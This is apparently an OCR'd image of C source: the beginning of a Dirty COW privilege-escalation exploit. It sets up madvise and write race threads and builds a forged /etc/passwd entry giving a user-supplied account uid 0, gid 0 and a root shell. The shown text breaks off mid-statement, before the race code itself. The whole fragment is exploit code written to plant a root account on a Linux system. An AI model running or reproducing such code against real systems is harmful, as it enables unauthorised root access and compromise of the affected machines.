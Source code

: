 ```c
#include <string.h>
#include <stdint.h>
#include <crypt.h>

struct stat passwd_st;
void * map;
char *fake_user;
int fake_user_length;

pthread_t write_thread, madvise_thread;

struct Userinfo
{
    char *username;
    char *hash;
    int user_id;
    int group_id;
    char *info;
    char *home_dir;
    char *shell;
}hacker = 
{
    .user_id = 0,
    .group_id = 0,
    .info = "a3pwn",
    .home_dir = "/root",
    .shell = "/bin/bash",
};

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    int passwd_fd;

    if (argc < 3)
    {
        puts("usage: ./dirty username password");
        puts("do not forget to make a backup for the /etc/passwd by yourself");
        return 0;
    }

    hacker.username = argv[1];
    hacker.hash = crypt(argv[2], argv[1]);

    fake_user_length = snprintf(NULL, 0, "%s:%s:%d:%d:%s:%s:%s\n", 
        hacker.username, 
        hacker.hash, 
        hacker.user_id, 
        hacker.group_id, 
        hacker.info, 
        hacker.home_dir, 
        hacker.shell);
    fake_user = (char * ) malloc(fake_user_length + 0x10);

    sprintf(fake_user, "%s:%s:%d:%d:%s:%s:%s\n", 
        hacker.username, 
        hacker.hash, 
        hacker.user_id, 
        hacker.group_id, 
        hacker.info, 
        hacker.home_dir, 
```